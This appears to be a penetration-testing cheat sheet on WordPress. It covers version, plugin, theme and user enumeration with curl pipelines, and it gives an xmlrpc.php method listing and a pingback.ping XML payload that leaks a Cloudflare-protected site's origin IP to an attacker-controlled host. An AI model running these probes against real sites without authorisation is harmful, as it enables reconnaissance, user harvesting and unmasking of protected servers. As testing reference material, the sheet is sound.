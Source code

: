 #### Wordpress manual enumration

**Version:**

 - Check WP meta-tag with the name `generator` - e.g.:  
`<meta name="generator" content="WordPress 4.4" />`
 - Check `readme.html`, `readme.txt`, `changelog.txt`, `license.txt`, ...
 - Inspect HTTP response-headers for `X-Powered-By` line
 - Check for version-info on the login-page (`wp-login.php`)
 - Check REST-API (usually under `https://pentest-expers.com/wp-json/`)
 - Analyze JS- and CSS-files for version information - e.g.:  
`https://pentest-expers.com/wp-embed.min.js?ver=4.4`
 - Inspect the `generator`-tag in RSS feed - e.g.:  
`https://pentest-expers.com/?feed=rss2`  
There you will find:  
`<generator>https://wordpress.org/?v=4.4</generator>`

**Plugins:**

```bash
curl -s -X GET 'https://pentest-expers.com/' | grep 'wp-content/plugins/*' | sed "s/'/\"/g" | sed 's/<script/""""/g' | cut -d '"' -f 6 | sort -u
```

**Themes:**

```bash
curl -s -X GET 'https://pentest-expers.com/' | grep 'wp-content/themes' | cut -d "'" -f 6 | sort -u
```

**Users:**

 - `curl -s -I -X GET https://pentest-expers.com/?author=1` - Look for response code `200` or `301`  
   Test ID 1 till ID n with ZAP, BurpSuite, ...  
   Redirect show then the username: ``
 - `curl -s -I -X GET https://pentest-expers.com/author/USERNAME` - Look for response code `200`
 - `curl https://pentest-expers.com/wp-json/wp/v2/users` - via API

**Useful tools:**

 - `wpscan`
 - `msfconsole`
 - https://github.com/xmendez/wfuzz

#### Attacking WordPress `xmlrpc.php`

Getting a list of alloed methods:

```bash
curl -ks -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" https://pentest-experts.com/xmlrpc.php
```

**Utilizing the `pingback.ping` method**

 - Call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP by pointing to an attacker-controlled host with this XML code:  

    ```xml
    <methodCall>
      <methodName>pingback.ping</methodName>
      <params>
        <param>
          <value><string>https://pentest-experts.com/</string></value>
        </param>
        <param>
          <value><string>https://blog.victim.com/2024/10/some-blog-post/</string></value>
        </param>
      </params>
    </methodCall>
    ```
